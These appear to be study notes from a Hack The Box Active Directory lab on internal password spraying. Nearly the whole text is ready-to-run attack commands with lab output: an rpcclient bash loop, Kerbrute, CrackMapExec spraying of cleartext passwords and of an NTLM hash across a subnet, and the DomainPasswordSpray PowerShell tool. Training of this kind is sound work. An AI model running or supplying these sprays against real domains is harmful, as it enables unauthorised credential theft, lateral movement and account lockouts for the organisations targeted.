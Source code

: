 # Internal Password Spraying - from Linux
### Using a Bash one-liner for the Attack

```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
#### Example

```bash
Yashfren@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```
### Using Kerbrute for the Attack

```bash
Yashfren@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```
### Using CrackMapExec & Filtering Logon Failures

```bash
Yashfren@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 --continue-on-success | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

After getting one (or more!) hits with our password spraying attack, we can then use CrackMapExec to validate the credentials quickly against a Domain Controller.
### For checking all users with same password use --continue-on-success flag
### Validating the Credentials with CrackMapExec

```bash
Yashfren@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123 

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

The `--local-auth` flag tells the tool to authenticate against the **local SAM database on each target host**, rather than using domain authentication. It only attempts a single login per host, which reduces the risk of triggering account lockouts. This is especially important to avoid locking out sensitive domain accounts like the built-in `Administrator`. Without this flag, CrackMapExec will attempt to authenticate using the current domain context, which can quickly lead to domain-wide account lockouts if credentials are invalid.
### Local Admin Spraying with CrackMapExec

```bash
Yashfren@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf --continue-on-success | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```
# Internal Password Spraying - from Windows
### Using DomainPasswordSpray - https://github.com/dafthack/DomainPasswordSpray

There are several options available to us with the tool. Since the host is domain-joined, we will skip the -UserList flag and let the tool generate a list for us. We'll supply the Password flag and one single password and then use the -OutFile flag to write our output to a file for later use.

```bash
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

